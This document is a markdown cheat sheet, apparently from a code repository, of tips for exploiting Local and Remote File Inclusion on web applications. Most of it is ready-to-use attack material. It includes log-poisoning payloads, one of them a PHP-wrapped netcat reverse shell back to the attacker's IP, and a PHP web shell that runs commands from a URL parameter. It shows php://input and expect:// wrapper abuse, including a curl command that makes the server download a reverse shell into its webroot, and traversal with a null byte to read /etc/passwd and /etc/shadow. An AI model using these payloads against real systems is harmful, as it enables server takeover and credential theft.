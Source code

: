 # Local & Remote File Inclusion Attacks
> tips for exploiting LFI/RFI on a web app

## LFI
- common on loading files or images via URL params
-----
#### Log Poisoning -> LFI to RCE
- if you can use LFI to retrieve log resource
1. set listener
2. change user-agent to this to this and then submit and use LFI again to request log resource
```<?php exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [my-ip] 4444 >/tmp/f') ?>```
- Alternative method: 
1. connect via nc
```nc -nv [ip] 80```
2. send payload: 
```<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>```
- ignore the potential 400 Bad Request response
3. request the log file to execute the injected code (windows): 
```http://[ip]/examplePage.php?vulnerable=c:\xampp\apache\logs\access.log&cmd=ipconfig```

##### Files to check for
- /etc/passwd -> find users on the system
- /etc/shadow -> if you can read this than the server is running the web app with root user, any rev shell will be auto-rooted
- 'c:\boot.ini' -> bootloader file, often has exact OS version info

#### PHP Wrappers
- expect wrapper can be used to escalate to OS cmd injection
	- ```http://[ip]/vulnerable.php?param=expect://ls```
- input wrapper can send a reverse shell or OS cmds in the POST body: 
	- using curl: 
		- ```curl -X POST http://[ip]/vulnerable.php?param=php://input -d "<? system('uname -a');?>"```
	- reverse shell variant: 
		- ```curl -X POST http://[ip]/vulnerable.php?param=php://input -d "<? system('wget http://[my-ip]/php-reverse-shell.php -O /var/www/shell.php');?>"```
		- then navigate to the uploaded shell

#### Null Byte
- add ```%00``` to the end of an injection to stop the app from adding an expected filetype to the end
	- ```../../../../../../../../../../../etc/passwd%00```

## RFI
------
- start HTTP server:
	- ```nc -nvlp 80```  OR  ```python3 -m http.sever 80```
- inject a URL to your HTTP server on your machine into vulnerable param
	- ```http://[ip]/vulnerable.php?param=http://[my-ip]/malicious-local-file```
